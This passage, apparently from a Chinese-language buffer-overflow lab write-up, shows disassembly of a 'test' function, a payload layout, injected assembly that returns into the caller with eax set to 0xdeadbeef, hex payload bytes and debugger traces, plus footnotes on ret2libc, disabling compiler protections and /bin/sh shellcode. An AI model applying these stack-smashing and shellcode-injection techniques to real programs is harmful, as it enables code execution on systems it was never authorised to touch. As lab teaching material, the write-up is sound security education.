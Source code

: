 ``` shellcode + padding + ebp + shellcode's start addr ```
 80492c3:	8d 83 08 e0 ff ff    	lea    eax,[ebx-0x1ff8]
 80492c9:	50                   	push   eax
 80492ca:	e8 81 fd ff ff       	call   8049050 <printf@plt>
 80492cf:	83 c4 10             	add    esp,0x10
 80492d2:	e8 b1 ff ff ff       	call   8049288 <getbuf>
 80492d7:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80492da:	83 ec 08             	sub    esp,0x8
 80492dd:	ff 75 f4             	push   DWORD PTR [ebp-0xc]
 80492e0:	8d 83 19 e0 ff ff    	lea    eax,[ebx-0x1fe7]
 80492e6:	50                   	push   eax
 80492e7:	e8 64 fd ff ff       	call   8049050 <printf@plt>
 80492ec:	83 c4 10             	add    esp,0x10
 80492ef:	90                   	nop
 80492f0:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 80492f3:	c9                   	leave  
 80492f4:	c3                   	ret
```

```assembly
mov eax, 0xdeadbeef
push 0x80492d7
ret ; or you can simply jmp :)
;B8EFBEAD DE68D792 0408C300 00000000 00000000 00000000 EBP ADDR
```

```assembly
   0x80492a7  <getbuf+31>    mov    eax, 1
   0x80492ac  <getbuf+36>    leave  
   0x80492ad  <getbuf+37>    ret    
    ↓
   0xffffd380                mov    eax, 0xdeadbeef
 ► 0xffffd385                push   test+41                       <0x80492d7>
   0xffffd38a                ret    
    ↓
   0x80492d7  <test+41>      mov    dword ptr [ebp - 0xc], eax
   0x80492da  <test+44>      sub    esp, 8
   0x80492dd  <test+47>      push   dword ptr [ebp - 0xc]
   0x80492e0  <test+50>      lea    eax, [ebx - 0x1fe7]
   0x80492e6  <test+56>      push   eax
```

当跳转到0x80492d7后，这一切就像无事发生，只不过返回值，也就是`eax`会被改成0xdeadbeef。[^4]

```assembly
push 0xdeadbeef
push 0x80492e0
ret

;payload: 68EFBEAD DE68E092 0408C300 00000000 00000000 00000000 EBP ADDR
```

```assembly
   0x80492a7  <getbuf+31>    mov    eax, 1
   0x80492ac  <getbuf+36>    leave  
   0x80492ad  <getbuf+37>    ret    
    ↓
   0xffffd380                push   0xdeadbeef
 ► 0xffffd385                push   test+50                       <0x80492e0>
   0xffffd38a                ret    
    ↓
   0x80492e0  <test+50>      lea    eax, [ebx - 0x1fe7]
   0x80492e6  <test+56>      push   eax
   0x80492e7  <test+57>      call   printf@plt                     <printf@plt>
 
   0x80492ec  <test+62>      add    esp, 0x10
   0x80492ef  <test+65>      nop
```

[^1]: 基本的[C语言函数调用栈](https://www.cnblogs.com/clover-toeic/p/3755401.html)知识可以看这篇文章。
[^2]: 在CTF-Wiki上简述了[ret2libc](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2libc)的原理和利用方法。
[^3]: [How to turn off gcc compiler optimization to enable buffer overflow? - stackoverflow](https://stackoverflow.com/questions/2340259/how-to-turn-off-gcc-compiler-optimization-to-enable-buffer-overflow)
[^4]: 我们可以使用[PWNTools中的ASM模块](https://docs.pwntools.com/en/stable/asm.html)来将汇编代码编译成字节码。
[^5]: 利用`int 0x80`执行了`/bin/sh`的一段[Shellcode](https://shell-storm.org/shellcode/files/shellcode-841.html)